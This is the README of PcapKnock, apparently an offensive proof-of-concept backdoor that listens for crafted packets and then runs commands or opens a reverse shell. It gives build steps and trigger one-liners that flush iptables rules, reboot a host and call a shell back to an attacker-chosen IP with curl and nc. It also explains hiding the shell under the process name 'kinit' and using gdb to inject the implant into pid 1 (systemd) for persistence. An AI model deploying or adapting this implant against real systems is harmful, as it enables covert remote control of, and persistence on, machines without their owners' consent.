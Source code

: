 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

For legal use only.

Building
--------
The [`build.sh`](./build.sh) script will try to produce binaries and shared
object files, but may well need tweaking.  On Linux, expect to have to wrestle
your distro's package manager.  On OpenBSD and FreeBSD, it just works.

The library and binaries will go into `built/$(uname -s)` in the source tree.
The built files are as follows:

Name                          | Purpose
------------------------------|--------
`pcapknock.standalone`        | "Normal" standalone binary.  Nohup it and run it in in the backgroud.
`pcapknock.standalone.daemon` | Standalone binary which forks itself into the background.
`pcapknock.standalone.debug`  | Standalone binary which prints debugging info.
`pcapknock.so`                | Injectable library
`pcapknock.pid1-injector`     | All-in-one injector targeting [init](#linux-injection)


Usage
-----
Once pcapknock is running as root, all that's required to trigger it is a
packet containing either a command to run surrounded by `COMMAND...COMMAND` or
an address to which to call back with a shell surrounded with
`CALLBACK...CALLBACK`.

Trigger examples:
```bash
# Drop the Linux firewall
echo 'iptables -P INPUT ACCEPT; iptables -P OUTPUT ACCEPT; iptables -F' | nc -u <TARGET> 53

# Reboot a box
dig @target COMMANDrebootCOMMAND

# Call back on port 80
(sleep 1 && curl -sv -d 'CALLBACK<LOCALIP>:80CALLBACK' http://target) & nc -nvl 80
```

For either a callback or a command, a shell is spawned, disassociated from the
parent process, and run with the name (i.e. `argv[0]`) `kinit`.  The name may
be changed in [`config.h`](./config.h).

Configuration
-------------
Two compile-time preprocessor macros may be set when building to control
debugging output and to cause the pcapknock to daemonze when run as a
standalone program.  These are `DEBUG` and `DAEMON`, respectively (i.e.
`-DDEBUG` and `-DDAEMON` when compiling).

Further compile-time configuration can be performed by editing
[`config.h`](./config.h), but in general, this shouldn't be necessary.

There is no runtime configuration.

Linux Injection
---------------
On Linux, an additional binary named `pcapknock.pid1-injector` is built.  This
loads `pcapknock.so` and gdb into memory and uses gdb to shove pcapknock into
pid 1, which will likely be systemd.  There should be a line something like
```
$1 = (void *) 0x559ea705d3f0
```
which indicates (likely) success.  If the number on the right is 0, something's
gone wrong.

In either case, expect a lot of mesages like
```
kernel:systemd[1]: segfault at 7ffff81e3f5f ip 00007ffff81e3f5f sp 00007ffff81e3f50 error 15 
```
Apparently systemd is happy segfaulting.  A "better" description of systemd can
be found in https://amzn.com/B075DYXZW1.

